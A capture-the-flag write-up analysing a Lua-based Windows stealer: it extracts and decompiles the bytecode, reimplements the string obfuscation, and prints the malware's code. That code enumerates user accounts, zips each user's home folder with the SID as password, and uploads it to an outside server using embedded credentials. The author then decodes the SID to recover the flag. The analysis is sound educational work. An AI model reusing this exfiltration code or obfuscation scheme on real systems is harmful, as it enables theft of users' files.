

### Overview

| Challenge name | My Hawaii Vacation |
| --- | --- |
| Solution author | Sudeep Singh |
| Category | Malware |

 

In this challenge, we are provided a Lua-compiled binary. We can identify that the binary is related to Lua by quickly viewing the strings.

```
$ strings Booking\ -\ ID\ Verification.exe | grep Lua
$Lua: Lua 5.1 Copyright (C) 1994-2006 Lua.org, PUC-Rio $
no Lua program found in %s
PANIC: unprotected error in call to Lua API (%s)
Lua function expected
Lua 5.1
```

Since the binary is related to Lua, we can extract the Lua-compiled bytecode from the binary. To do that, we can search for the bytecode header, `\x1bLua` in a hex editor and use the offsets to extract the Lua bytecode.

We can see two instances of the bytecode at offsets, 0x2B214 and 0x31000.

I extracted the bytecode using dd as shown below.
```
dd if=id.exe of=chunk2.luac bs=1 skip=$((0x31000))
```
Now, we can use `unluac.jar` to decompile the bytecode.

```
java -jar unluac.jar chunk2.lua >> decompiled.lua
```

### Lua bytecode analysis

We notice that a lot of strings are obfuscated and they are decrypted at runtime by calling the function, `__D()`

We can extract the relevant parts of the code to build the string decryption routine

```
local __K = "RR3IL6YJ...SSSZHO"

local __P = true

local __U8 = function(a, b, c, d)
	return string.char(a, b, c, d)
end

local function __T()
	return {
		__U8(240, 159, 140, 186),
		__U8(240, 159, 140, 180),
		__U8(240, 159, 140, 138),
		__U8(240, 159, 140, 139),
		__U8(240, 159, 165, 165),
		__U8(240, 159, 140, 136),
		__U8(240, 159, 144, 162),
		__U8(240, 159, 144, 160),
		__U8(240, 159, 144, 172),
		__U8(240, 159, 144, 139),
		__U8(240, 159, 144, 154),
		__U8(240, 159, 144, 179),
		__U8(240, 159, 144, 161),
		__U8(240, 159, 166, 128),
		__U8(240, 159, 166, 136),
		__U8(240, 159, 144, 153)
	}
end


local function __D(t, k)
	local T = __T()
	local S = function(k)
		k = tostring(k or "")
		local s = 3237919422
		for i = 1, #k do
			s = (s * 1315423911 + k:byte(i)) % 4294967296
		end
		return s
	end
	local M = function(seed)
		return function()
			seed = (1664525 * seed + 1013904223) % 4294967296
			return seed
		end
	end
	local X = function(a, b)
		local r, p = 0, 1
		for _ = 1, 4 do
			local A = a % 2
			local B = b % 2
			if (A + B) % 2 == 1 then
				r = r + p
			end
			a = (a - A) / 2
			b = (b - B) / 2
			p = p * 2
		end
		return r
	end
	if k == nil then
		k = __K
	end
	local key_on = k ~= nil and k ~= ""
	local permute = __P == true and key_on
	local toklen = 4
	local perm = {}
	for n = 0, 15 do
		perm[n] = n
	end
	if permute then
		local r = M(S(tostring(k) .. "|perm"))
		for i = 15, 1, -1 do
			local j = r() % (i + 1)
			perm[i], perm[j] = perm[j], perm[i]
		end
	end
	local dec_map = {}
	for n = 0, 15 do
		local idx = permute and perm[n] or n
		dec_map[T[idx + 1]] = n
	end
	t = (t or ""):gsub("%s+", "")
	local out, n, i, step = {}, #t, 1, toklen * 2
	local ks
	if key_on then
		local r = M(S(tostring(k) .. "|xor"))
		function ks()
			local v = r() % 256
			return (v - v % 16) / 16, v % 16
		end
	end
	while n >= i + step - 1 do
		local a = t:sub(i, i + toklen - 1)
		local b = t:sub(i + toklen, i + step - 1)
		local hi, lo = dec_map[a], dec_map[b]
		if not hi or not lo then
			break
		end
		if ks then
			local kh, kl = ks()
			hi = X(hi, kh)
			lo = X(lo, kl)
		end
		out[#out + 1] = string.char(hi * 16 + lo)
		i = i + step
	end
	return table.concat(out)
end
```

Now we can use a Lua interpreter to execute the above code and pass it the encrypted string. It is important to use the correct version of Lua interpreter. In our case, we will use the version 5.1.4

As an example, by adding the below line of code, we can print the decrypted string

```
print(__D("\240\159\140\186\240\159\144\162\240\159\144\161\240\159\144\153\240\159\144\162\240\159\140\138\240\159\144\161\240\159\144\160\240\159\140\186\240\159\144\172\240\159\144\154\240\159\144\161\240\159\166\136\240\159\140\186\240\159\166\128\240\159\144\161\240\159\140\136\240\159\144\160\240\159\144\179\240\159\144\153\240\159\166\128\240\159\144\161\240\159\144\172\240\159\140\136\240\159\144\160\240\159\140\136\240\159\140\136\240\159\140\180\240\159\140\138\240\159\166\128\240\159\140\186\240\159\144\172\240\159\165\165\240\159\140\139\240\159\144\179\240\159\144\160\240\159\165\165\240\159\166\136\240\159\144\139\240\159\166\136\240\159\144\160\240\159\166\136\240\159\144\172\240\159\144\172\240\159\166\128\240\159\140\136\240\159\140\180\240\159\144\162\240\159\140\136\240\159\144\139\240\159\144\162\240\159\140\139\240\159\140\186\240\159\144\153\240\159\140\180\240\159\140\136\240\159\144\160\240\159\140\180\240\159\140\180\240\159\144\153\240\159\144\179\240\159\144\179\240\159\140\180\240\159\166\136\240\159\140\138\240\159\144\139\240\159\144\139\240\159\140\138\240\159\144\179\240\159\166\128\240\159\144\139\240\159\144\179\240\159\140\138\240\159\144\153\240\159\166\136\240\159\140\139\240\159\140\186\240\159\140\186\240\159\140\186\240\159\166\128\240\159\144\179\240\159\140\186\240\159\140\180\240\159\144\179\240\159\144\153\240\159\165\165\240\159\166\128\240\159\144\154\240\159\165\165\240\159\144\161\240\159\144\139\240\159\144\154\240\159\140\180\240\159\140\139\240\159\144\139\240\159\144\161\240\159\166\128\240\159\144\172", __K))
```

decrypted string: `wmic computersystem get manufacturer,model 2> NUL`

Similarly, we can repeat this operation for all the encrypted strings and replace them with the decrypted versions. I have included the deobfuscation script in the appendix.

In the deobfuscated code, we can see that it includes a lot of anti-analysis methods to detect the presence of debuggers, virtualisation softwares etc.

The most interesting and relevant section of code is below

```
local pc = "powershell.exe -NoProfile -Command \"Get-CimInstance -ClassName Win32_UserAccount | Where-Object { Test-Path (Join-Path -Path 'C:\\Users' -ChildPath $_.Name) } | Select-Object Name,SID | Format-List\""
local h = io.popen(pc, ("r"))
if h then
	local o = h:read(("*all"))
	h:close()
	local u, cu = {}
	for_each_line(o, function(l)
		if l:sub(1, 4) == "Name" then
			local colon = l:find(":", 1, true)
			if colon then
				local v = trim(l:sub(colon + 1))
				u.c = u.c or {}
				u.c.n = v
				u[v] = u.c
			end
		elseif l:sub(1, 3) == "SID" then
			local colon = l:find(":", 1, true)
			if colon and u.c then
				u.c.s = trim(l:sub(colon + 1))
				local f = st .. "\\" .. os.getenv(("COMPUTERNAME")) .. "_" .. u.c.n .. ".log"
				local pc2 = "powershell.exe -NoProfile -Command \"(Get-ItemProperty 'HKLM:\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\ProfileList\\" .. u.c.s .. "').Sid > " .. f .. "\""
				os.execute(pc2)
				uf(f, "https://175f4f5d.proxy.coursestack.com/a9GeV5t1FFrTqNXUN2vaq93mNKfSDqESBn2IlNiGRvh6xYUsQFEk4rRo8ajGA7fiEDe1ugdmAbCeqXw6y0870YkBqU1hrVTzgDIHZplop8WAWTiS3vQPOdNP", "prometheus", ("PA4tqS5NHFpkQwumsd3D92cb"))
				o = bd(ou, "C:\\Users\\", u.c.n, u.c.s)
				uf(o, "https://175f4f5d.proxy.coursestack.com/a9GeV5t1FFrTqNXUN2vaq93mNKfSDqESBn2IlNiGRvh6xYUsQFEk4rRo8ajGA7fiEDe1ugdmAbCeqXw6y0870YkBqU1hrVTzgDIHZplop8WAWTiS3vQPOdNP", "prometheus", ("PA4tqS5NHFpkQwumsd3D92cb"))
			end
		end
	end)
	u.c = nil
end
```

Below are the key functionalities of this code.

- Writes the current user's Windows SID to the log file with the name: <COMPUTERNAME>_<USERNAME>.log
- Creates a password-protected archive file that contains all the files in the `C:\\Users\\<username>` path. The current user's Windows SID is used as the password for the archive file.
- Both the log file and the password-protected ZIP archive are uploaded to the server by sending a request to the URL: `https://175f4f5d.proxy.coursestack.com/a9GeV5t1FFrTqNXUN2vaq93mNKfSDqESBn2IlNiGRvh6xYUsQFEk4rRo8ajGA7fiEDe1ugdmAbCeqXw6y0870YkBqU1hrVTzgDIHZplop8WAWTiS3vQPOdNP`

This URL requires authentication and the credentials used for authentication are below.

username: prometheus
password: PA4tqS5NHFpkQwumsd3D92cb

I accessed the URL and found two files hosted there as shown below.

 

WINDOWS11-Administrator.log - this contains numbers as shown below.

```
$ cat WINDOWS11-Administrator.log 
1
5
0
0
0
0
0
5
21
0
0
0
18
239
154
226
242
155
126
245
147
116
180
120
244
1
0
0
```

WINDOWS11-Administrator.zip - this is the password-protected archive file.

If we list the contents of this password-protected archive file, we can see it contains the flag.txt file
```
Listing archive: WINDOWS11-Administrator.zip

--
Path = WINDOWS11-Administrator.zip
Type = zip
Physical Size = 4765

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2025-10-04 21:50:30 D....            0           30  AppData/Roaming/Microsoft/Windows/Start Menu/Programs
2025-10-04 21:50:30 D....            0           30  AppData/Roaming
...
2025-10-04 18:43:52 .....           39           69  Desktop/flag.txt
...
```

So now, we need to find the password for this archive file.

In the deobfuscated Lua code, we saw that the Windows SID is used as a password for the archive file.

So we need to decode the contents of WINDOWS11-Administrator.log to retrieve the Windows SID.

Using the below script, we can decode the SID

```
bytes_list = [
    1, 5, 0, 0, 0, 0, 0, 5,
    21, 0, 0, 0,
    18, 239, 154, 226,
    242, 155, 126, 245,
    147, 116, 180, 120,
    244, 1, 0, 0
]

def decode_sid(data):
    if len(data) < 8:
        raise ValueError("Data too short for a SID")

    revision = data[0]
    subauth_count = data[1]
    ident_auth = 0
    for b in data[2:8]:
        ident_auth = (ident_auth << 8) | b

    subs = []
    offset = 8
    for i in range(subauth_count):
        if offset + 4 > len(data):
            break
        val = data[offset] | (data[offset+1] << 8) | (data[offset+2] << 16) | (data[offset+3] << 24)
        subs.append(str(val))
        offset += 4

    sid = "S-{}-{}-{}".format(revision, ident_auth, "-".join(subs))
    return sid

if __name__ == "__main__":
    sid = decode_sid(bytes_list)
    print("Decoded SID:", sid)
```

Decoded SID: S-1-5-21-3801804562-4118715378-2025092243-500

Now, we just need to use the decoded Windows SID as the password and extract the contents of the archive.

Flag is: `flag{0a741a06d3b8227f75773e3195e1d641}`

### Appendix

#### deobfuscation script

The below script decrypts all encrypted strings and replacs each in the original code with their decrypted version

```
local __K = "RR3IL6YJTKWSXB3I6KRTAAVBFXUV2Q5BBDNBH5UTPAPCHZXKTJNYG5PALFL5VXAS2OVF3IPATW223ITWHHYEFUAAYXFJLO6IN662OXG33I......EZG3EBC3SHB4JDYE325MM2TISKJJGUY635BJZGU74ZVZYKCVFF7SRSE624RKDWKKY6CXI6RFYESSMWKUX35NX6V4Z7S3BARYRDU7QOW2SGBHUC6MIAECOGCFYMWHBM4HDQQCUV5N5G7MUW2FVEECVDQXS2WOUYGX6UNMZRRWLDS5JVVFTLWMNIYHMMP6S7ZJEECCNUEA3DO5ZBJI2SO6OR2XHIKRGHM26RBO7VY5DWHW54IBVTJJZ5AQ74PSSSZHO"

local __P = true

local __U8 = function(a, b, c, d)
	return string.char(a, b, c, d)
end

local function __T()
	return {
		__U8(240, 159, 140, 186),
		__U8(240, 159, 140, 180),
		__U8(240, 159, 140, 138),
		__U8(240, 159, 140, 139),
		__U8(240, 159, 165, 165),
		__U8(240, 159, 140, 136),
		__U8(240, 159, 144, 162),
		__U8(240, 159, 144, 160),
		__U8(240, 159, 144, 172),
		__U8(240, 159, 144, 139),
		__U8(240, 159, 144, 154),
		__U8(240, 159, 144, 179),
		__U8(240, 159, 144, 161),
		__U8(240, 159, 166, 128),
		__U8(240, 159, 166, 136),
		__U8(240, 159, 144, 153)
	}
end


local function __D(t, k)
	local T = __T()
	local S = function(k)
		k = tostring(k or "")
		local s = 3237919422
		for i = 1, #k do
			s = (s * 1315423911 + k:byte(i)) % 4294967296
		end
		return s
	end
	local M = function(seed)
		return function()
			seed = (1664525 * seed + 1013904223) % 4294967296
			return seed
		end
	end
	local X = function(a, b)
		local r, p = 0, 1
		for _ = 1, 4 do
			local A = a % 2
			local B = b % 2
			if (A + B) % 2 == 1 then
				r = r + p
			end
			a = (a - A) / 2
			b = (b - B) / 2
			p = p * 2
		end
		return r
	end
	if k == nil then
		k = __K
	end
	local key_on = k ~= nil and k ~= ""
	local permute = __P == true and key_on
	local toklen = 4
	local perm = {}
	for n = 0, 15 do
		perm[n] = n
	end
	if permute then
		local r = M(S(tostring(k) .. "|perm"))
		for i = 15, 1, -1 do
			local j = r() % (i + 1)
			perm[i], perm[j] = perm[j], perm[i]
		end
	end
	local dec_map = {}
	for n = 0, 15 do
		local idx = permute and perm[n] or n
		dec_map[T[idx + 1]] = n
	end
	t = (t or ""):gsub("%s+", "")
	local out, n, i, step = {}, #t, 1, toklen * 2
	local ks
	if key_on then
		local r = M(S(tostring(k) .. "|xor"))
		function ks()
			local v = r() % 256
			return (v - v % 16) / 16, v % 16
		end
	end
	while n >= i + step - 1 do
		local a = t:sub(i, i + toklen - 1)
		local b = t:sub(i + toklen, i + step - 1)
		local hi, lo = dec_map[a], dec_map[b]
		if not hi or not lo then
			break
		end
		if ks then
			local kh, kl = ks()
			hi = X(hi, kh)
			lo = X(lo, kl)
		end
		out[#out + 1] = string.char(hi * 16 + lo)
		i = i + step
	end
	return table.concat(out)
end

local infile = arg[1]
if not infile then
  io.stderr:write("Usage: lua deobfuscate.lua <file.lua>\n")
  os.exit(1)
end

-- Read the whole file
local data = assert(io.open(infile, "r")):read("*a")

------------------------------------------------------
--  Helper: convert sequences like \240\159\144\160 -> actual bytes
------------------------------------------------------
local function unescape_bytes(s)
  return (s:gsub("\\(%d+)", function(n)
    return string.char(tonumber(n))
  end))
end

------------------------------------------------------
--  Substitute every __D("<escaped bytes>", __K)
------------------------------------------------------
local count = 0
local pattern = "__D%s*%((['\"])(.-)%1%s*,%s*__K%s*%)"

local out = data:gsub(pattern, function(_, enc)
  count = count + 1
  local decoded_arg = unescape_bytes(enc)
  local ok, dec = pcall(__D, decoded_arg, __K)
  if ok and dec and dec ~= "" then
    -- escape for a valid Lua literal
    dec = dec:gsub("\\", "\\\\"):gsub("\"", "\\\""):gsub("\n", "\\n")
    print(("Decoded #%d (len %d)"):format(count, #enc))
    return "\"" .. dec .. "\""
  else
    io.stderr:write(("empty or failed decode at #%d (input len %d)\n"):format(count, #enc))
    return "__D(\""..enc.."\", __K)"
  end
end)

------------------------------------------------------
--  Write output
------------------------------------------------------
local outfile = infile:gsub("%.lua$", "_deob.lua")
local f = assert(io.open(outfile, "w"))
f:write(out)
f:close()

print(("Wrote %s with %d replacements."):format(outfile, count))
```
